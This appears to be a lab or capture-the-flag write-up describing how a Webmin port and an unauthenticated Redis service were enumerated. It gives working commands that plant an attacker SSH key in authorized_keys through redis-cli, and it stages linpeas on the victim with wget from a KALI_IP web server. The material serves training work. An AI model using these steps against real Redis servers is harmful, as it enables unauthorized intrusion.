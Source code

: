 ### Port 10000 (HTTP(s))
- Nmap reveals this to be a Miniserv 1.9.10 server hosting Webmin httpd
	- No subdirectories were found - move on
	- ![](Pasted%20image%2020230215162233.png)

### Port 6379 (Redis)
- What we know:
	- Redis is susceptible to unauthenticated command execution as demonstrated above 
	- The server is serving SSH and HTTP
	- Looking through [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#ssh) we see that it may be possible to push a SSH key we control to the `authorized_keys` file on the victim. 
	- **Why this works**: 
		- The `redis-cli` tool allowed us to connect to the victim redis service as the  system user `redis`. We also know the home directory of the user as determined through `config get dir`
		- ![](Pasted%20image%2020230215164226.png)
		- The `authorized_keys` file contains a list of approved public ssh keys that will allow users to connect to the victim host as the redis user as long as the attacker has the appropriate private key.

# Foothold
- Begin by executing the commands outlined [here](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#ssh) to push a public key we own to the victim.
- In a kali terminal:
	- If you do not have a ssh key configured:
		- `ssh-keygen -t rsa`
	- `(echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > spaced_key.txt`
		- This takes your public key from the SSH key pair, spaces it accordingly, and outputs the text to a new file called `spaced_key.txt`
	- `cat spaced_key.txt | redis-cli -h $IP -x set ssh_key`
		- This takes the output of the `cat` command (the content of the txt file) and pipes it to the `redis-cli` tool
	- Reconnect to the `redis` server by entering `redis-cli -h $IP` in your terminal, and then the following into the `redis` prompt:
		- `config set dir /var/lib/redis/.ssh`
		- `config set dbfilename "authorized_keys"`
		- `save`
	- In a **new** Kali terminal window, type `ssh -i ~/.ssh/id_rsa redis@$IP` - this gives us a shell as the `redis` user. 
		- ![](Pasted%20image%2020230215165254.png)

## Local enumeration as the redis user

- Start by transferring the linpeas.sh script (see Required Tools)
	- Two ways to transfer:
		1. On kali using `scp` from the same directory as your `linpeas.sh` script, type `scp linpeas.sh redis@$IP:~/`
			- This leverages `ssh` to securely transfer the file - will be more stealthy than transferring using HTTP as this is encrypted
		2. On kali, using a simple webserver serving in the same directory as your `linpeas.sh` script type `python3 -m http.server 80`
			- On the victim host, select the directory you want to store your tools in and type `wget KALI_IP/linpeas.sh` - replace `KALI_IP` with the IP of your kali box.
			- You could use the `/dev/shm` directory to store tools/files that dont need to persist on reboot since this directory is typically writeable by most services/users. Its also volatile and will empty on reboot.
- Once transferred using either of the above methods, you will need to make the script executable for the `redis` user. This can be done by typing in your ssh session, `chmod +x linpeas.sh`
- To run the enumeration script, simply enter `./linpeas.sh` and wait.